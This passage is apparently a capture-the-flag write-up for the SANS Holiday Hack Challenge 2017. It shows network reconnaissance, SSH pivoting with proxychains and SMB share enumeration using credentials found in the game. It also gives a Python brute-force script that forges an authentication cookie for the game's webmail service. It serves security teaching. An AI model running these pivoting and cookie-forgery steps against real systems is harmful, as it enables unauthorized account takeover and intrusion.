    Starting Nmap 7.40 ( https://nmap.org ) at 2017-12-24 18:40 CET
    Nmap scan report for dev.northpolechristmastown.com (35.185.84.51)
    Host is up (0.18s latency).
    rDNS record for 35.185.84.51: 51.84.185.35.bc.googleusercontent.com
    PORT   STATE SERVICE
    22/tcp open  ssh

    Nmap done: 1 IP address (1 host up) scanned in 0.62 seconds
    $ ssh alabaster_snowball@dev.northpolechristmastown.com
    alabaster_snowball@dev.northpolechristmastown.com's password: stream_unhappy_buy_loss
    alabaster_snowball@hhc17-apache-struts1:/tmp/asnow.FcLiqpWNISKoESUcwo5Jip8O$ hostname
    hhc17-apache-struts1
    alabaster_snowball@hhc17-apache-struts1:/tmp/asnow.FcLiqpWNISKoESUcwo5Jip8O$

Alright! The password :code:`stream_unhappy_buy_loss` also works for the
system account. Let's the internal IP address of the system:

.. code-block:: console
    :hl_lines: 3

    $ ifconfig eth0
    eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1460
            inet 10.142.0.3  netmask 255.255.255.255  broadcast 10.142.0.3
            ether 42:01:0a:8e:00:03  txqueuelen 1000  (Ethernet)
            RX packets 4837274  bytes 1254973259 (1.1 GiB)
            RX errors 0  dropped 0  overruns 0  frame 4
            TX packets 11266245  bytes 3876810300 (3.6 GiB)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

Alright, we have access to the 10.142.0.0/24 network, which is in scope! Let's
what IP addresses are up. For this I use a custom one-liner, launched directly
on the machine:

.. code-block:: console

    $ prefix=10.142.0; for i in `seq 1 254`; do ping -c 1 -W 1 $prefix.$i > /dev/null 2>&1 && echo "$prefix.$i is up"; done
    10.142.0.2 is up
    10.142.0.3 is up
    10.142.0.5 is up
    10.142.0.6 is up
    10.142.0.7 is up
    10.142.0.8 is up
    10.142.0.11 is up
    10.142.0.13 is up

Now that we know which IPs are up, let's perform a port scan. Luckily,
:code:`nmap` is installed on the server, so we can use it. But let's say that
:code:`nmap` isn't installed on the machine: in a real world example, this
would most likely be the case, and that's how I did it (it didn't even cross
my mind that :code:`nmap` could be installed, and I just checked when writing
this write-up).

Now that we have valid SSH credentials, we can create a SOCKS proxy using the
:code:`-D` option. We can then use a tool like :code:`proxychains` to redirect
our different tools through our SOCKS proxy:

.. code-block:: console

    $ # in one terminal
    $ ssh -D 4242 alabaster_snowball@dev.northpolechristmastown.com

.. code-block:: console

    $ # in another terminal
    $ tail -n 6 /etc/proxychains.conf
    [ProxyList]
    # add proxy here ...
    # meanwile
    # defaults set to "tor"
    socks4     127.0.0.1 4242 # modify here in your configuration file
    $ proxychains nmap -sT -Pn --top-port 10 --open -iL ./up_ips.txt
    [snip]

Now you may notice that I just scanned the top 10 TCP ports. Indeed, scanning
port through a SOCKS proxy can take quite some time, because of the overhead,
so most of the time I just bother to scan the top 10 TCP ports.

Now, since :code:`nmap` is installed on our compromised machine, let's do a
more thorough scan, directly from the :code:`hhc17-apache-struts1` machine:

.. code-block:: console

    $ nmap --open 10.142.0.0/24 -oA tcp_top_1000_10.142.0.0.24

    Starting Nmap 7.40 ( https://nmap.org ) at 2017-12-25 23:04 UTC
    Nmap scan report for hhc17-l2s-proxy.c.holidayhack2017.internal (10.142.0.2)
    Host is up (0.00021s latency).
    Not shown: 996 closed ports
    Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
    PORT     STATE SERVICE
    22/tcp   open  ssh
    80/tcp   open  http
    443/tcp  open  https
    2222/tcp open  EtherNetIP-1

    Nmap scan report for hhc17-apache-struts1.c.holidayhack2017.internal (10.142.0.3)
    Host is up (0.00021s latency).
    Not shown: 998 closed ports
    Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    Nmap scan report for mail.northpolechristmastown.com (10.142.0.5)
    Host is up (0.00016s latency).
    Not shown: 994 closed ports
    Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
    PORT     STATE SERVICE
    22/tcp   open  ssh
    25/tcp   open  smtp
    80/tcp   open  http
    143/tcp  open  imap
    2525/tcp open  ms-v-worlds
    3000/tcp open  ppp

    Nmap scan report for edb.northpolechristmastown.com (10.142.0.6)
    Host is up (0.00013s latency).
    Not shown: 996 closed ports
    Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
    PORT     STATE SERVICE
    22/tcp   open  ssh
    80/tcp   open  http
    389/tcp  open  ldap
    8080/tcp open  http-proxy

    Nmap scan report for hhc17-smb-server.c.holidayhack2017.internal (10.142.0.7)
    Host is up (0.00052s latency).
    Not shown: 996 filtered ports
    PORT     STATE SERVICE
    135/tcp  open  msrpc
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    3389/tcp open  ms-wbt-server

    Nmap scan report for hhc17-emi.c.holidayhack2017.internal (10.142.0.8)
    Host is up (0.00018s latency).
    Not shown: 960 closed ports, 35 filtered ports
    Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
    PORT     STATE SERVICE
    80/tcp   open  http
    135/tcp  open  msrpc
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    3389/tcp open  ms-wbt-server

    Nmap scan report for hhc17-apache-struts2.c.holidayhack2017.internal (10.142.0.11)
    Host is up (0.00023s latency).
    Not shown: 996 closed ports
    Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
    PORT     STATE SERVICE
    22/tcp   open  ssh
    80/tcp   open  http
    4443/tcp open  pharos
    9090/tcp open  zeus-admin

    Nmap scan report for eaas.northpolechristmastown.com (10.142.0.13)
    Host is up (0.0045s latency).
    Not shown: 998 filtered ports
    Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
    PORT     STATE SERVICE
    80/tcp   open  http
    3389/tcp open  ms-wbt-server

    Nmap done: 256 IP addresses (7 hosts up) scanned in 7.17 seconds

We now have a better view of the internal network.

Third page of *The Great Book*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
North Pole and Beyond: Cryokinetic Magic
----------------------------------------
Cranberry Pi: Yannick's (dirty) solution
........................................

::

                         ___
                        / __'.     .-"""-.
                  .-""-| |  '.'.  / .---. \
                 / .--. \ \___\ \/ /____| |
                / /    \ `-.-;-(`_)_____.-'._
               ; ;      `.-" "-:_,(o:==..`-. '.         .-"-,
               | |      /       \ /      `\ `. \       / .-. \
               \ \     |         Y    __...\  \ \     / /   \/
         /\     | |    | .--""--.| .-'      \  '.`---' /
         \ \   / /     |`        \'   _...--.;   '---'`
          \ '-' / jgs  /_..---.._ \ .'\\_     `.
           `--'`      .'    (_)  `'/   (_)     /
                      `._       _.'|         .'
                         ```````    '-...--'`
    My name is Holly Evergreen, and I have a conundrum.
    I broke the candy cane striper, and I'm near throwing a tantrum.
    Assembly lines have stopped since the elves can't get their candy cane fix.
    We hope you can start the striper once again, with your vast bag of tricks.

    Run the CandyCaneStriper executable to complete this challenge.

Ok, so we just have to execute the :code:`CandyCaneStripper` executable, let's
take a look at it:

.. code-block:: console

    elf@cd14b3563680:~$ ls -lh
    total 48K
    -rw-r--r-- 1 root root 45K Dec 15 19:59 CandyCaneStriper

The :code:`CandyCaneStripper` file is **not** marked as executable. So we can't
launch it. Let's :code:`chmod` it to add the executable flag:

.. code-block:: console

    elf@cd14b3563680:~$ chmod +x ./CandyCaneStriper
    elf@cd14b3563680:~$ ls -lh CandyCaneStriper
    -rw-r--r-- 1 root root 45K Dec 15 19:59 CandyCaneStriper

Hmm, it didn't work. Let's take a look at the :code:`chmod` executable:

.. code-block:: console

    elf@cd14b3563680:~$ which chmod
    /bin/chmod
    elf@cd14b3563680:~$ file /bin/chmod
    /bin/chmod: empty

The :code:`chmod` executable is empty, so we don't have it. We can't use the
same trick as for the :code:`find` executable from "Winter Wonder Landing",
because it involded using :code:`chmod` to mark our new program as executable.
We seem to be stuck in a `Catch-22 logic <https://en.wikipedia.org/wiki/Catch-22_(logic)>`__.
So, let's see how we can change our program's attributes, without relying on
:code:`chmod`.

This `Stack Exchange answer <https://unix.stackexchange.com/a/83979>`__ gives
us several possibilities. I used the first one:

.. code-block:: console

    elf@cd14b3563680:~$ cp /bin/ls ./CandyCaneStriper_from_ls
    elf@cd14b3563680:~$ cp ./CandyCaneStriper ./CandyCaneStriper_from_ls
    elf@cd14b3563680:~$ ls -lh CandyCaneStriper_from_ls
    -rwxr-xr-x 1 elf elf 45K Dec 23 18:57 CandyCaneStriper_from_ls
    elf@cd14b3563680:~$ ./CandyCaneStriper_from_ls
                       _..._
                     .'\\ //`,
                    /\\.'``'.=",
                   / \/     ;==|
                  /\\/    .'\`,`
                 / \/     `""`
                /\\/
               /\\/
              /\ /
             /\\/
            /`\/
            \\/
             `
    The candy cane striping machine is up and running!

Cranberry Pi: the "official" solution
.....................................

Having managed to execute the program, I decided to take a look at `Holly
Evergreen's Twitter profile <https://twitter.com/GreenesterElf>`__. In `this
tweet <https://twitter.com/GreenesterElf/status/938544194070634496>`__, she
points to a `Super User answer <https://superuser.com/questions/341439/can-i-execute-a-linux-binary-without-the-execute-permission-bit-being-set>`__,
which explains how to execute a program that is not marked as executable.

The accepted answer says that we can use the program linker/loader as an
interpreter. Let's give it a try:

.. code-block:: console

    elf@fea39a7c28e3:~$ ls -lh ./CandyCaneStriper
    -rw-r--r-- 1 root root 45K Dec 15 19:59 ./CandyCaneStriper
    elf@fea39a7c28e3:~$ /lib/x86_64-linux-gnu/ld-2.23.so ./CandyCaneStriper
                       _..._
                     .'\\ //`,
                    /\\.'``'.=",
                   / \/     ;==|
                  /\\/    .'\`,`
                 / \/     `""`
                /\\/
               /\\/
              /\ /
             /\\/
            /`\/
            \\/
             `
    The candy cane striping machine is up and running!

And it worked, indeed! TIL you can execute a program without it being marked
as executable.

Redirecting the snowball
........................

Since we managed to execute the program, we get a new tool: the Thermite, which
can melts the snowball, reduce its size, and thus modify its speed.

.. image:: /images/sans-christmas-challenge-2017/cryokinetic_magic_terminal.png
    :alt: cryokinetic_magic_terminal.png
    :align: center

Now here's the layout I used to redirect the snowball:

.. image:: /images/sans-christmas-challenge-2017/cryokinetic_magic_snowball.gif
    :alt: cryokinetic_magic_snowball.gif
    :align: center

North Pole Christmas Town infrastructure: SMB server
----------------------------------------------------

If we take a look at the :code:`nmap` scan, we can see that a server called
:code:`hhc17-smb-server.c.holidayhack2017.internal`. This must be an SMB
server used to share some files. Let's try to connect to it using Alabaster
Snowball's credentials. To do this, I'm using :code:`proxychains`, and
`@byt3bl33d3r <https://twitter.com/byt3bl33d3r>`__'s excellent
:code:`CrackMapExec`:

.. code-block:: console
    :hl_lines: 11

    $ proxychains cme 10.142.0.7 -u alabaster_snowball -p stream_unhappy_buy_loss --shares
    ProxyChains-3.1 (http://proxychains.sf.net)
    |S-chain|-<>-127.0.0.1:4242-<><>-10.142.0.7:445-<><>-OK
    CME          10.142.0.7:445 HHC17-EMI       [*] Windows 10.0 Build 14393 (name:HHC17-EMI) (domain:HHC17-EMI)
    |S-chain|-<>-127.0.0.1:4242-<><>-10.142.0.7:445-<><>-OK
    |S-chain|-<>-127.0.0.1:4242-<><>-10.142.0.7:445-<><>-OK
    CME          10.142.0.7:445 HHC17-EMI       [+] HHC17-EMI\alabaster_snowball:stream_unhappy_buy_loss
    CME          10.142.0.7:445 HHC17-EMI       [+] Enumerating shares
    CME          10.142.0.7:445 HHC17-EMI       SHARE           Permissions
    CME          10.142.0.7:445 HHC17-EMI       -----           -----------
    CME          10.142.0.7:445 HHC17-EMI       FileStor        READ
    CME          10.142.0.7:445 HHC17-EMI       ADMIN$          NO ACCESS
    CME          10.142.0.7:445 HHC17-EMI       IPC$            READ
    CME          10.142.0.7:445 HHC17-EMI       C$              NO ACCESS

Hmm, we have read access to the :code:`FileStor` share. Let's connect to it.
I'm using `impacket <https://github.com/CoreSecurity/impacket>`__'s
:code:`smbclient.py`:

.. code-block:: console
    :hl_lines: 12

    $ proxychains smbclient.py alabaster_snowball:stream_unhappy_buy_loss@10.142.0.7
    ProxyChains-3.1 (http://proxychains.sf.net)
    Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies

    |S-chain|-<>-127.0.0.1:4242-<><>-10.142.0.7:445-<><>-OK
    Type help for list of commands
    # use FileStor
    # ls
    drw-rw-rw-          0  Mon Dec 25 05:09:11 2017 .
    drw-rw-rw-          0  Mon Dec 25 05:09:11 2017 ..
    -rw-rw-rw-     255520  Mon Dec 25 05:09:28 2017 BOLO - Munchkin Mole Report.docx
    -rw-rw-rw-    1275756  Mon Dec  4 21:04:34 2017 GreatBookPage3.pdf
    -rw-rw-rw-     133295  Wed Dec  6 22:47:47 2017 MEMO - Password Policy Reminder.docx
    -rw-rw-rw-      10245  Wed Dec  6 23:28:21 2017 Naughty and Nice List.csv
    -rw-rw-rw-      60344  Wed Dec  6 22:51:47 2017 Naughty and Nice List.docx

Among other files that may be useful later, we find the `third page to The
Great Book </docs/sans-christmas-challenge-2017/GreatBookPage3.pdf>`__
(sha256: :code:`6b99d47103d4030e643c8073dfab0915b0bf1a265c32035ec604148abd49d64e`):

    The Great Schism

    Many centuries ago, the Little People of Oz were united - one people
    sharing peace and laughter all the way. But then, tragedy struck - The
    Great Schism split the community into two bitterly opposed factions: the
    Munchkins and the Elves. The original cause of this acrimonious division
    has long been forgotten.

    As The Great Schism escalated from verbal arguments to fist fights to the
    rise of actual armed militias, the Wizard knew he had to act. He reached
    out to his good friend, Santa Claus, who at the time was setting up a
    worldwide gift distribution operation at the North Pole. To avoid the
    near-certain bloodshed of an Oz-wide civil war, the Wizard and Santa agreed
    that they would relocate the Elven faction to the North, where they would
    help Santa manufacture presents and run the North Pole's infrastructure.
    The Munchkins would remain in Oz, living as before, but viewing the Elves'
    departure as a banishment. The Elves themselves regard their move as
    a magnanimous and voluntary relocation to the North Pole, seeking refuge
    from marauding Munchkins.

    Sadly, although violence between the Munchkins and the Elves was thwarted,
    there remains a seething hatred between the two peoples. Despite the best
    efforts of Santa and the Wizard of Oz, anti-Elf propaganda appears from
    time to time in Oz, as does anti-Munchkin sentiment in the North Pole.
    Indeed, the two peoples remain in a perpetual state of cold ward. Sadly,
    the chilling after-affects of The Great Schism are felt to this very day.

Fourth page of *The Great Book*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
North Pole and Beyond: There's Snow Place Like Home
---------------------------------------------------
Cranberry Pi
............

::


                                 ______
                              .-"""".._'.       _,##
                       _..__ |.-"""-.|  |   _,##'`-._
                      (_____)||_____||  |_,##'`-._,##'`
                      _|   |.;-""-.  |  |#'`-._,##'`
                   _.;_ `--' `\    \ |.'`\._,##'`
                  /.-.\ `\     |.-";.`_, |##'`
                  |\__/   | _..;__  |'-' /
                  '.____.'_.-`)\--' /'-'`
                   //||\\(_.-'_,'-'`
                 (`-...-')_,##'`
          jgs _,##`-..,-;##`
           _,##'`-._,##'`
        _,##'`-._,##'`
          `-._,##'`
    My name is Pepper Minstix, and I need your help with my plight.
    I've crashed the Christmas toy train, for which I am quite contrite.
    I should not have interfered, hacking it was foolish in hindsight.
    If you can get it running again, I will reward you with a gift of delight.

Alright, once again, we're supposed to execute a program. Let's see:

.. code-block:: console

    elf@36ff87294cc6:~$ ls -lh
    total 444K
    -rwxr-xr-x 1 root root 444K Dec  7 18:43 trainstartup
    elf@a6b0a5dfef57:~$ ./trainstartup
    bash: ./trainstartup: cannot execute binary file: Exec format error
    elf@a6b0a5dfef57:~$ file ./trainstartup
    ./trainstartup: ELF 32-bit LSB  executable, ARM, EABI5 version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=005de4685e8563d10b3de3e0be7d6fdd7ed732eb, not stripped
    elf@a6b0a5dfef57:~$ uname -a
    Linux a6b0a5dfef57 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3 (2017-12-03) x86_64 x86_64 x86_64 GNU/Linux

Hmm, just like for the :code:`find` executable in "Winter Wonder Landing",
we're stuck with an ARM program, while we're running on an Intel x64 processor.
However, we can't replace this program with an x64 version, since it's a
custom program! We must find a way to execute ARM on an Intel x64 processor.

This usually means that we have to use some kind of virtualization solution.
One virtualization solution that works in CLI, and can launch program
independently, without having to virtualize a whole OS is QEMU. Let's see if
the machine has QEMU:

.. code-block:: console
    :hl_lines: 2

    elf@a6b0a5dfef57:~$ find / -name 'qemu*' 2> /dev/null
    /usr/bin/qemu-arm
    /usr/bin/qemu-alpha
    /usr/bin/qemu-sh4eb
    /usr/bin/qemu-mips
    /usr/bin/qemu-aarch64
    /usr/bin/qemu-sparc32plus
    /usr/bin/qemu-m68k
    /usr/bin/qemu-microblazeel
    /usr/bin/qemu-ppc64
    /usr/bin/qemu-mipsn32
    /usr/bin/qemu-microblaze
    /usr/bin/qemu-mips64
    /usr/bin/qemu-sparc64
    /usr/bin/qemu-s390x
    /usr/bin/qemu-mips64el
    /usr/bin/qemu-mipsel
    /usr/bin/qemu-cris
    /usr/bin/qemu-armeb
    /usr/bin/qemu-sparc
    /usr/bin/qemu-unicore32
    /usr/bin/qemu-x86_64
    /usr/bin/qemu-mipsn32el
    /usr/bin/qemu-ppc64abi32
    /usr/bin/qemu-sh4
    /usr/bin/qemu-i386
    /usr/bin/qemu-ppc
    /usr/bin/qemu-or32
    [snip]

Yes, :code:`qemu-arm` is present, we can try and launch our program:

.. code-block:: console

    elf@a6b0a5dfef57:~$ /usr/bin/qemu-arm ./trainstartup
    Starting up...

        Merry Christmas
        Merry Christmas
    v
    >*<
    ^
    /o\
    /   \               @.·
    /~~   \                .
    / ° ~~  \         · .
    /      ~~ \       ◆  ·
    /     °   ~~\    ·     0
    /~~           \   .─··─ · o
                 /°  ~~  .*· · . \  ├──┼──┤
                  │  ──┬─°─┬─°─°─°─ └──┴──┘
    ≠==≠==≠==≠==──┼──=≠     ≠=≠==≠==≠==≠==≠==≠==≠==≠==≠==≠==≠==≠==≠==≠==≠==≠==≠===≠
                  │   /└───┘\┌───┐       ┌┐
                             └───┘    /▒▒▒▒
    ≠==≠==≠==≠==≠==≠==≠==≠==≠==≠==≠==≠=°≠=°≠==≠==≠==≠==≠==≠==≠==≠==≠==≠==≠==≠==≠==≠
    You did it! Thank you!

Redirecting the snowball
........................

Since we managed to execute the program, we're given an object: Jam, which
does... something? I dunno, but apparently it should not be confused with
reindeer droppings.

.. image:: /images/sans-christmas-challenge-2017/there_s_snow_place_like_home_terminal.png
    :alt: there_s_snow_place_like_home_terminal.png
    :align: center

Now here's the layout I used to redirect the snowball:

.. image:: /images/sans-christmas-challenge-2017/there_s_snow_place_like_home_snowball.gif
    :alt: there_s_snow_place_like_home_snowball.gif
    :align: center

North Pole Christmas Town infrastructure: Elf Web Access
--------------------------------------------------------

If we take another look at the :code:`nmap` scan result, we can find a server
called :code:`mail.northpolechristmastown.com`. This is obviously the North
Pole mail server. Let's see what we can find.

If we try to connect with Alabaster's password, we get an :code:`Incorrect
password` message. Great, the guy reuses his password for his MySQL account,
his system account, and his SMB account, but not his mail account. Let's find
another way.

.. image:: /images/sans-christmas-challenge-2017/ewa_failed_login.png
    :alt: ewa_failed_login.png
    :align: center

After trying to bypass authentication for quite some time, I decided to go
back to basic recon. By looking at the source code of the application, we
find a reference to a webpage called :code:`account.html`:

.. code-block:: js
    :hl_lines: 14

    // File custom.js
    function login() {
        var address = $('#email').val().trim();
        var passw = $('#password').val().trim();
        if (address && passw && address.match(/[\w\_\-\.]+\@[\w\_\-\.]+\.\w\w\w?\w?/g) !== null) {
            $.post( "login.js", { email: address, password: passw }).done(function( result ) {
                //RETURN A JSON bool value of true if the email and password is correct. false if incorrect
                if (result.bool) {
                    $('#email').val('');
                    $('#password').val('');
                    Materialize.toast('Correct. Logging in now!', 4000);
                    setTimeout(function(){
                        //redirect to home.html. This needs to be locked down by cookies!
                        window.location.href = 'account.html';
                    }, 1000);
                } else {
                    Materialize.toast(result.result, 4000);
                }
            }).fail(function(error) {
                Materialize.toast('Error: '+error.status + " " + error.statusText, 4000);
            })
        } else {
            Materialize.toast('You must put in a correct email and password!', 4000);
        }
    }

But trying to go directly to this page just redirects us to the login page.
Let's continue our recon. Here's what we find in the :code:`robots.txt` file:

.. code-block:: http
    :hl_lines: 3

    GET /robots.txt HTTP/1.1
    Host: 10.142.0.5
    Cookie: EWA={"name":"GUEST","plaintext":"","ciphertext":""}
    Connection: close

.. code-block:: http
    :hl_lines: 7 10

    HTTP/1.1 200 OK
    Server: nginx/1.10.3 (Ubuntu)
    Date: Thu, 28 Dec 2017 20:29:07 GMT
    Content-Type: text/plain; charset=UTF-8
    Content-Length: 37
    Connection: close
    X-Powered-By: Express

    User-agent: *
    Disallow: /cookie.txt

Couple of interesting things. First, the application set us a cookie called
:code:`EWA`, with what seems to be our access level. I tried replaying the
cookie with values such as :code:`ADMIN`, etc. but it didn't work. Second, the
application is using the Express framework, which is based on NodeJS. We
now know the backend of the application. And finally, there is a file called
:code:`cookie.txt` in the application webroot, and the developper didn't want
this file to be indexed by search engine bots. So I guess it must be
interesting! Let's see.

The file contains the following Javascript code:

.. code-block:: js

    //FOUND THESE FOR creating and validating cookies. Going to use this in node js
        function cookie_maker(username, callback){
            var key = 'need to put any length key in here';
            //randomly generates a string of 5 characters
            var plaintext = rando_string(5)
            //makes the string into cipher text .... in base64. When decoded this 21 bytes in total length. 16 bytes for IV and 5 byte of random characters
            //Removes equals from output so as not to mess up cookie. decrypt function can account for this without erroring out.
            var ciphertext = aes256.encrypt(key, plaintext).replace(/\=/g,'');
            //Setting the values of the cookie.
            var acookie = ['IOTECHWEBMAIL',JSON.stringify({"name":username, "plaintext":plaintext,  "ciphertext":ciphertext}), { maxAge: 86400000, httpOnly: true, encode: String }]
            return callback(acookie);
        };
        function cookie_checker(req, callback){
            try{
                var key = 'need to put any length key in here';
                //Retrieving the cookie from the request headers and parsing it as JSON
                var thecookie = JSON.parse(req.cookies.IOTECHWEBMAIL);
                //Retrieving the cipher text
                var ciphertext = thecookie.ciphertext;
                //Retrievingin the username
                var username = thecookie.name
                //retrieving the plaintext
                var plaintext = aes256.decrypt(key, ciphertext);
                //If the plaintext and ciphertext are the same, then it means the data was encrypted with the same key
                if (plaintext === thecookie.plaintext) {
                    return callback(true, username);
                } else {
                    return callback(false, '');
                }
            } catch (e) {
                console.log(e);
                return callback(false, '');
            }
        };

So, we seem to have found the code that is use to generate the :code:`EWA`
cookie. Here's how it seems to work:

1. The server generates a five-letter random string (variable :code:`plaintext`).

2. This string is encrypted using AES256 (variable :code:`ciphertext`, with a fixed key (variable :code:`key`).

3. The username, the random string, and its encrypted value, are put in the cookie.

4. To check the cookie, the server decrypts the encrypted value, and compares it to the random string sent in the cookie.

At first, I tried generating a cookie, using the key :code:`need to put any length key in here`,
hoping that the developper had not changed this section of the source code, but
it didn't work. So we don't know the key. But there are still some glaring
errors in this cookie generation code.

First, let's take a look at the `aes256 NodeJS module <https://www.npmjs.com/package/aes256>`__.
I installed NodeJS and this module, and played around with it:

.. code-block:: js

    > var aes256 = require('aes256');
    undefined
    > var key = 'my milkshake brings all the boys to the yard';
    undefined
    > var plaintext = '1337';
    undefined
    > aes256.encrypt(key, plaintext)
    'L07kb9VSHbavnunjI/4aom8KcS4='

Let's take a look at our ciphertext:

.. code-block:: console

    $  echo 'L07kb9VSHbavnunjI/4aom8KcS4=' | base64 -d | hexdump -C
    00000000  2f 4e e4 6f d5 52 1d b6  af 9e e9 e3 23 fe 1a a2  |/N.o.R......#...|
    00000010  6f 0a 71 2e                                       |o.q.|
    00000014

Hmmm, our output is 20 bytes, which is not a multiple of AES block-size. This
is weird. The first block of our ciphertext (16 bytes) must be the
initialization vector, which leaves a 4-byte block. Incidently, 4 bytes is
exactly the size of our plaintext. After several manual tries, I confirmed that
the plaintext and the ciphertext have the same size, which is the first oops.

The second oops is that the cookie verification code does not perform any check
on the payload sent in the cookie. So it will happily accept one-byte long
payload :strike:`(but unfortunately, not empty payload)` **(it actually does,
see after)**.

So, if we send a one-byte long payload, there are only 256 possible values for
the ciphertext, which is easily bruteforceable on line. Here's a Python script
that will try to find a valid cookie:

.. code-block:: python

    #!/usr/bin/env python3

    import base64
    import requests
    import time

    def main():
        # The URL we try to access
        url = 'http://10.142.0.5/account.html'

        # Our cookie template, with a one-byte long plaintext
        cookie_template = '{{"name":"alabaster.snowball@northpolechristmastown.com","plaintext":"a","ciphertext":"{}"}}'

        # Our arbitrary IV
        iv = b'\x90' * 16

        for candidate in range(256):
            # We create our candidate cipher text, by appending the one-byte value
            # to our IV, and base64 encoding it
            ciphertext = base64.b64encode(iv + bytes([candidate])).decode('utf8')

            # We then create our cookie, and get the wanted page
            cookies = {'EWA': cookie_template.format(ciphertext)}
            r = requests.get(url, cookies=cookies)

            # If we get a positive return, we output the cookie
            if r.status_code == 200 and r.text != '<script>window.location.href=\'/\'</script>'::
                print(cookies)
                break

    if __name__ == '__main__':
        main()

We launch our script through :code:`proxychains` and...

.. code-block:: console

    $ proxychains ./cookie_finder.py
    ProxyChains-3.1 (http://proxychains.sf.net)
    |S-chain|-<>-127.0.0.1:4242-<><>-10.142.0.5:80-<><>-OK
    [snip]
    {'EWA': '{"name":"alabaster.snowball@northpolechristmastown.com","plaintext":"a","ciphertext":"kJCQkJCQkJCQkJCQkJCQkGk="}'}

Bingo! We get a valid cookie for Alabaster's account!

**<Errata>**

After solving this part, I checked the hints given by the Elf of this level,
Pepper Minstix:

    AES256? Honestly, I don't know much about it, but Alabaster explained the
    basic idea and it sounded easy. During decryption, the first 16 bytes are
    removed and used as the initialization vector or "IV." Then the IV + the
    secret key are used with AES256 to decrypt the remaining bytes of the
    encrypted string.  

    Hmmm. That's a good question, I'm not sure what would happen if the
    encrypted string was only 16 bytes long.

So the system does in fact accept empty :code:`plaintext` variables, with
any :code:`ciphertext` that is 16-byte long. So using this cookie works:
:code:`{"name":"alabaster.snowball@northpolechristmastown.com","plaintext":"","ciphertext":"QUFBQUFBQUFBQUFBQUFBQQo="}`.

I was sure to have checked this, but obviously I'm mistaken (that's an oops for
me)!

**</Errata>**

Alright, now we have a valid cookie for Alabaster's account. Or any account
really. This is the third oops: there's no link between the :code:`name` set in
the cookie, and the :code:`plaintext` and :code:`ciphertext` variables. So now
that we have found a valid ciphertext for our plaintext :code:`a`, we can put
anything we want in the :code:`name` variable, such as
:code:`admin@northpolechristmastown.com`, and we'll be logged into the given
account:

.. image:: /images/sans-christmas-challenge-2017/ewa_alabaster_account.png
    :alt: ewa_alabaster_account.png
    :align: center

If we snoop around Alabaster's mailbox, we find this email:

   **From:** holly.evergreen@northpolechristmastown.com

   **To:** all@northpolechristmastown.com

   **Subject:** Lost book page

   Hey Santa,

   Found this lying around. Figured you needed it.

   http://mail.northpolechristmastown.com/attachments/GreatBookPage4_893jt91md2.pdf

   :)

   -Holly

We get a link to the `fourth page of The Great Book </docs/sans-christmas-challenge-2017/GreatBookPage4_893jt91md2.pdf>`__
(sha256: :code:`6afe9f8c7dc8a392b6d853a05f1c1ce67b490633e3aa6c22faa3b1936f1ceed0`):

    The Rise of the Lollipop Guild

    As tensions escalated immediately before The Great Schism, outright
    fistfights erupted in the streets of the Emerald City as the most
    radicalized Elves and Munchkins battled for turf. In those early days, the
    small-scale skirmishes were disorganized and chaotic. But as hostilities
    and violence continued to grow, organized groups of elite fighters emerged
    on each side to take control of the militias. One particularly notherworthy
    band of commandos named itself the "Lollipop Guild".

    Today, despite its sweet candy-themed name, the Guild's mission is by no
    means sugar coated. The official, stated focus of this liliputian force is
    to apply elite military tactics to defend Oz against all Elven aggression.
    What's more, it's also believed (at least among the Elves) that the
    Lollipop Guild engages in offensive operations against the North Pole, both
    from a cyber and kinetic perspective. The Elves consider the Lollipop Guild
    to be a terrorist organization. Indeed, the North Pole Elven Blue Team
    toils year-round defending the computer and network infrastructure of the
    North Pole from attack. Their biggest fear is that the Lollipop Guild will
    somehow disrupt or destroy the North Pole's biggest production of the year
    - Santa's Christmas Day present delivery operation. The North Pole Blue
    Team is on extremely high alert throughout Christmas Eve, and exhaustive
    period of analysis and active defense this team refers to as "Blue
    Christmas".

    Although it has never been proven, the Elves allege that the Lollipop Guild
    has infiltrated its operatives among the North Pole population, cleverly
    disguising these nefarious interlopers as Elves. According to these rumors,
    so-called Munchkin Moles mingle among even the Elven Elite. Because Elves
    and Munchkins look identical, Elven leadership remains confounded about
    whether Munchkin Moles actually exist. Yet, rumors persist.

Fifth page of *The Great Book*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The fifth page is located in North Pole and Beyond level. We must use the
giant falling snowball to collect it. But let's solve the Cranberry Pi
challenge first.

North Pole and Beyond: Bumbles Bounce
-------------------------------------
Cranberry Pi
............

::

                               ._    _.
                               (_)  (_)                  <> \  / <>
                                .\::/.                   \_\/  \/_/
               .:.          _.=._\\//_.=._                  \\//
          ..   \o/   ..      '=' //\\ '='             _<>_\_\<>/_/_<>_
          :o|   |   |o:         '/::\'                 <> / /<>\ \ <>
           ~ '. ' .' ~         (_)  (_)      _    _       _ //\\ _
               >O<             '      '     /_/  \_\     / /\  /\ \
           _ .' . '. _                        \\//       <> /  \ <>
          :o|   |   |o:                   /\_\\><//_/\
          ''   /o\   ''     '.|  |.'      \/ //><\\ \/
               ':'        . ~~\  /~~ .       _//\\_
    jgs                   _\_._\/_._/_      \_\  /_/
                           / ' /\ ' \                   \o/
           o              ' __/  \__ '              _o/.:|:.\o_
      o    :    o         ' .'|  |'.                  .\:|:/.
        '.\'/.'                 .                 -=>>::>o<::<<=-
        :->@<-:                 :                   _ '/:|:\' _
        .'/.\'.           '.___/*\___.'              o\':|:'/o
      o    :    o           \* \ / */                   /o\
           o                 >--X--<
                            /*_/ \_*\
                          .'   \*/   '.
                                :
                                '
    Minty Candycane here, I need your help straight away.
    We're having an argument about browser popularity stray.
